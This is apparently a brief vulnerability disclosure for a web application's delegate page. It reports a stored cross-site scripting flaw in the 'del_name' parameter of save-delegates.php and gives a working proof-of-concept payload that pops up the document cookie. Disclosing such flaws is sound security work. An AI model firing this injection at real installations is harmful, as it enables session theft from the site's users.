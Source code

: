 BUG_Author: zhangyf

Vulnerability File: /dipam/save-delegates.php

GET parameter "del_name" exists stored cross-site scripting vulnerability

Payload: /dipam/save-delegates.php?del_name=<script>alert(document.cookie)</script>&del_color=%23000000

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/5.png)

Payload will trigger when a user visits on http://localhost/dipam/all-delegates.php.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/6.png)
